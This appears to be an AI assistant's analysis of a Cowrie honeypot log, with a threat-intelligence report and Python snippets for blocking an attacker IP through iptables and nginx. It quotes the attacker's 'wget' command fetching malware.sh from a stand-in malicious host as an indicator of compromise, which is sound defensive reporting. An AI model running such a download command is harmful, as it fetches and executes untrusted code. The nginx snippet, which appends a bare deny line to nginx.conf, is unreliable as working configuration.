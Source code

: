 Okay, here's an analysis of the provided Cowrie honeypot log snippet, along with a threat intelligence report and Python code suggestions.

**Analysis**

1.  **Attacker IP Addresses:**

    *   123.45.67.89

2.  **Attacker Behavior Summary:**

    The attacker connected to the SSH service and attempted to download a script (`malware.sh`) from a suspicious URL (`http://malicious.com/malware.sh`) using `wget`. This indicates an attempt to install malware on the compromised system.

**Threat Intelligence Report**

```markdown
## Threat Intelligence Report - Cowrie Honeypot Incident

**Date:** 2025-06-29

**Subject:** SSH Brute-Force and Malware Download Attempt

**Source:** Cowrie Honeypot Log Analysis

**1. Executive Summary:**

A threat actor attempted to compromise the honeypot via SSH and subsequently tried to download and execute a malicious script. This activity indicates a targeted attack aimed at gaining unauthorized access and installing malware.

**2. Technical Details:**

*   **Attacker IP Address:** 123.45.67.89
*   **Timestamp:** 2025-06-29T10:22:33+0000
*   **Protocol:** SSH
*   **Observed Behavior:**
    *   Successful SSH connection.
    *   Attempted download of a script named `malware.sh` from the URL `http://malicious.com/malware.sh` using the `wget` command.

**3. Indicators of Compromise (IOCs):**

*   **IP Address:** 123.45.67.89
*   **URL:** `http://malicious.com/malware.sh`
*   **File Name:** `malware.sh`
*   **Command:** `wget http://malicious.com/malware.sh`

**4. Threat Assessment:**

The attacker's behavior suggests a high level of malicious intent. Downloading and attempting to execute a script from an external source is a common tactic for malware installation.  The attacker likely intended to gain persistent access to the system or use it for further malicious activities (e.g., botnet participation, data exfiltration).

**5. Recommended Actions:**

*   **Block IP Address:** Immediately block the IP address `123.45.67.89` at the firewall level to prevent further attempts.
*   **Investigate URL:** Investigate the URL `http://malicious.com/malware.sh` to determine the nature of the malware and identify potential victims.  Submit the URL to URL scanning services like VirusTotal.
*   **Monitor Systems:** Monitor other systems on the network for similar activity.
*   **Review Security Policies:** Review and strengthen SSH security policies, including password complexity requirements and disabling password-based authentication in favor of SSH keys.
*   **Honeypot Monitoring:** Continue monitoring the honeypot for new attacks and update threat intelligence accordingly.

**6. Reporting:**

Report this incident to relevant authorities and security organizations.

**7. Disclaimer:**

This report is based on limited information from a honeypot log. Further investigation may be required to fully understand the scope and impact of the attack.
```

**Python Code for Blocking IPs (iptables)**

```python
import subprocess

def block_ip_iptables(ip_address):
    """Blocks an IP address using iptables."""
    try:
        subprocess.run(['iptables', '-A', 'INPUT', '-s', ip_address, '-j', 'DROP'], check=True, capture_output=True, text=True)
        print(f"Successfully blocked IP address: {ip_address}")
    except subprocess.CalledProcessError as e:
        print(f"Error blocking IP address: {e.stderr}")
        print(f"Return code: {e.returncode}")
        print("Make sure you have root privileges to run iptables.")

def unblock_ip_iptables(ip_address):
    """Unblocks an IP address using iptables."""
    try:
        subprocess.run(['iptables', '-D', 'INPUT', '-s', ip_address, '-j', 'DROP'], check=True, capture_output=True, text=True)
        print(f"Successfully unblocked IP address: {ip_address}")
    except subprocess.CalledProcessError as e:
        print(f"Error unblocking IP address: {e.stderr}")
        print(f"Return code: {e.returncode}")
        print("Make sure you have root privileges to run iptables.")

if __name__ == "__main__":
    attacker_ip = "123.45.67.89"
    block_ip_iptables(attacker_ip)
    # To unblock:
    # unblock_ip_iptables(attacker_ip)
```

**Important Considerations for `iptables`:**

*   **Root Privileges:**  You *must* run this script with root privileges (e.g., using `sudo`).
*   **Persistence:**  `iptables` rules are not persistent by default.  You need to save the rules (e.g., using `iptables-save` and `iptables-restore`) so they survive a reboot.  The exact method depends on your Linux distribution.
*   **Testing:**  *Always* test firewall changes in a non-production environment before applying them to a live system.  A mistake in `iptables` can lock you out of your server.
*   **Alternatives:** Consider using `nftables` instead of `iptables` for a more modern and flexible firewall management solution.

**Python Code for Updating a Reverse Proxy (Example: Nginx)**

This is a more complex example because it depends on how your reverse proxy is configured.  Here's a *conceptual* example using Python and assuming you can modify the Nginx configuration file directly:

```python
import os

def block_ip_nginx(ip_address, nginx_config_file="/etc/nginx/nginx.conf"):
    """Blocks an IP address by adding it to the Nginx configuration."""

    try:
        with open(nginx_config_file, "a") as f:  # Append to the end of the file
            f.write(f"\n\ndeny {ip_address};\n")

        # Reload Nginx to apply the changes
        os.system("sudo nginx -s reload") # Requires sudo

        print(f"Successfully blocked IP address {ip_address} in Nginx.")

    except Exception as e:
        print(f"Error blocking IP address in Nginx: {e}")

if __name__ == "__main__":
    attacker_ip = "123.45.67.89"
    block_ip_nginx(attacker_ip)
```

**Important Considerations for Reverse Proxy Blocking:**

*   **Configuration File Location:**  The `nginx_config_file` path needs to be correct for your system.
*   **Reloading Nginx:**  The `nginx -s reload` command requires `sudo` privileges.  You might need to adjust this based on your system configuration.
*   **Best Practices:**  Directly modifying the main Nginx configuration file is generally *not* recommended for dynamic IP blocking.  A better approach is to:
    *   Create a separate file (e.g., `blocked_ips.conf`) containing the `deny` directives.
    *   Include this file in your main Nginx configuration using an `include` directive (e.g., `include /etc/nginx/blocked_ips.conf;`).
    *   Modify the `blocked_ips.conf` file using Python.
*   **Rate Limiting:**  Instead of outright blocking, consider using Nginx's rate limiting features to mitigate attacks.
*   **Web Application Firewall (WAF):**  A WAF (e.g., ModSecurity, Cloudflare) is a more robust solution for protecting against web application attacks.

**Disclaimer:**  These code examples are provided for illustrative purposes only.  Adapt them to your specific environment and security requirements.  Always test thoroughly before deploying to a production system.  Ensure you have proper error handling and logging in place.  Be aware of the security implications of modifying firewall rules and reverse proxy configurations.

